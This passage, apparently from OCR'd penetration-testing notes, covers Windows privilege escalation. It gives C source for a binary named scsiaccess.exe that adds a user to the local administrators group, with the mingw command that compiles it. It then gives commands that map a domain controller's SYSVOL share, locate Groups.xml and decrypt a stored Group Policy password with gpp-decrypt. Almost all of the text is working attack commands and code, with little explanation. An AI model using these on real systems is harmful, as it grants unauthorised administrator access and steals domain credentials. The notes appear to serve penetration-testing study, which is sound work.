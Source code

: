 - Compile a custom add user command in windows using C\
root@kali:\~# cat useradd.c\
\#include <stdlib.h> /\* system, NULL, EXIT_FAILURE \*/\
int main ()\
{\
int i;\
i=system ("net localgroup administrators low /add");\
return 0;\
}\
i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c

- Group Policy Preferences (GPP) A common useful misconfiguration found in modern domain environments is unprotected Windows GPP settings files

    - map the Domain controller SYSVOL share\
net use z:\\\\dc01\\SYSVOL

    - Find the GPP file: Groups.xml\
dir /s Groups.xml

    - Review the contents for passwords\
type Groups.xml

    - Decrypt using GPP Decrypt\
gpp-decrypt riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB